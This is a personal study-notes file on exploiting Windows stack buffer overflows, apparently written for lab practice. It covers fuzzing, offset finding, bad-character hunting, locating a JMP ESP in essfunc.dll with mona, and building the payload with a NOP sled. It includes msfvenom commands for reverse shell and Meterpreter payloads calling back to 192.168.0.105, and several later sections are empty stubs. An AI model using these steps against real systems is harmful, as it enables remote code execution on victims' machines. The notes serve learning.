# Author: Ali Taqi Wajid

<h1 style="text-align:center">Buffer Overflows</h1>

I might make some notes on each of these topics.

# Stack-Based Buffer Overflows
## Windows
- Firstly we need to fuzz the program to find the entry point.
- Then we have to found a rough close number that overflows the buffer.
- Then use pattern-create.rb from metasploit suite to create a pattern.
## Command:
`pattern-create.rb -l lenght`

Then, get the value of `EIP` using a debugger or something and then using pattern-offset.rb, we can get the offset.
## Command:
`pattern-offset.rb -l lenght -q <EIP address value>`
### Example:
`pattern-offset.rb -l 3000 -q 312565`

Now, we need to identify bad characters. To do that, we will have to send the bad chars. A list of badchars is as follows:
```python
badchars = (
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

Now, once we send the badchars with payload, in immunity, we have to select esp and right click and follow in dump, copy the hex dump and then paste it in a file and then we can use our python script to make it easier for us to identify the bad characters one by one.

Now, we need to find module where ASLR/DEP isn't on. This can either be the .exe itself or a .DLL that is provided with it. We can do that by typing the following command in the immunity debugger:
```
!mona modules
```

Now, we need to find the opcode of `JMP ESP` that will allow us to later jump to our shell code. To do that, we firstly need to locate the nasm_shell. To do that:
```bash
locate nasm_shell
```

Now, we need to open this, we can easily do that using $() if we get a single output:
```bash
$(locate nasm_shell)
```

We can also get an error. I did too. In order to bypass that error, i used the following command:
```bash
/opt/metasploit-framework/embedded/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/nasm_shell.rb
```
Now, we can see that the opcode is :
```
FFE4
```
Now, we need to go back in immunity, and then:
```
!mona find -s "\xff\xe4" -m <module_name>

## Example:
!mona find -s "\xff\xe4" -m essfunc.dll
```
Now, we need to right down the return addresses of the functions that we get from the result.
Consider the following return address:
`0x625014DF`
Now, due to the little endian, we need to write this address as follows for our script:
`\xDF\x14\50\x62`

Now, in immunity, we need to click on `bluish arrow` icon to jump to a certain address and we need to put this address in there. Then once we're at that address, we can press F2 to add a breakpoint there.

-> NOTE:
If you're not hitting the break point, try changing the python exploit script to look something like this:
```python
addr = b'\xDF\x14\x50\x62'
payload = 'A' * offset
payload = payload.encode()
payload += addr
```

We need to generate our shellcode now. To that, we will use msfvenom. The following command will generate a windows reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.105 LPORT=9001 EXITFUNC=thread -f py -a x86 -b "\x00"

# -p -> payload
# LHOST = IP on which a nc will be running and the shell will be received on
# LPORT = PORT being listened on
# EXITFUNC -> makes the exploit stable.
# -f -> Filetype (C lang)
# -b -> bad characters
# Note, in -b, you have to add all the badchars that you found in the above stage.
```

-> For Meterpreter Session(Stable):
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.105 LPORT=9999 -f py -a x86 -b "\x00"\
````

-> Note: We also need to add nop sled ('\x90') between the jump address and the shellcode to ensure safety and add padding. A working nop sled with payload (without shellcode) will look like this:

```python
addr = b'\xDF\x14\x50\x62'
nops = '\x90' * 30
payload = 'A' * offset
payload = payload.encode()
nops = nops.encode()

payload += addr
payload += nops
payload += shell_code
```

-> Reason why we add NOPs: We can note the difference of between the address of ESP and then follow the data in dump and then we can see that between EIP and ESP there exists some bytes, so, within those bytes, we will add our NOPs. We add even more nops so that we can easily know that the shell code will definitely execute.

## Linux:
```
test
```

# ASLR
# Stack Canaries
# DEP
# Heap-Based Buffer Overflows
# Examples
# Challenges
# Memory Corruption
# Exploit-Exercise Walkthroughs
# Python3 PWNTOOLS
# Other Binexp stuff